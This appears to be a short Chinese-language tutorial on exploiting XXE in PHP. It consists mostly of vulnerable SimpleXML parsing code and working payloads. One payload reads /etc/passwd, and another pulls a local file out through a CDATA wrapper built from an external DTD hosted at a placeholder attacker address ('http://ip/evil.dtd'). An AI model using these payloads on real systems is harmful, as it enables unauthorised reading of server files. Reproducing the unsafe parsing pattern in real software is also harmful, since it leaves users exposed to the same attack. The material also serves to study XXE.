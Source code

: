 SimpleXMLElement:

```PHP
<?php
$data = file_get_contents('php://input');
$xml = new SimpleXMLElement($data);

echo $xml->name;
```

simplexml_load_string:

```php
<?php
$data = file_get_contents('php://input');
$xml = simplexml_load_string($data);

echo $xml->name;
```

# XXE利用

## 有回显读取本地敏感文件

```PHP
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
<name>&xxe;</name>
</root>
```

但是如果返回的文件中有一些特殊字符,如<>&""会被当成XML来执行,从而报错,这个时候就需要使用CDATA

payload：

```php
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE roottag [
<!ENTITY % start "<![CDATA[">   
<!ENTITY % goodies SYSTEM "file:///d:/test.txt">  
<!ENTITY % end "]]>">  
<!ENTITY % dtd SYSTEM "http://ip/evil.dtd"> 
%dtd; ]> 

<roottag>&all;</roottag>
```

**evil.dtd**

```php
<?xml version="1.0" encoding="UTF-8"?> 
<!ENTITY all "%start;%goodies;%end;">
```

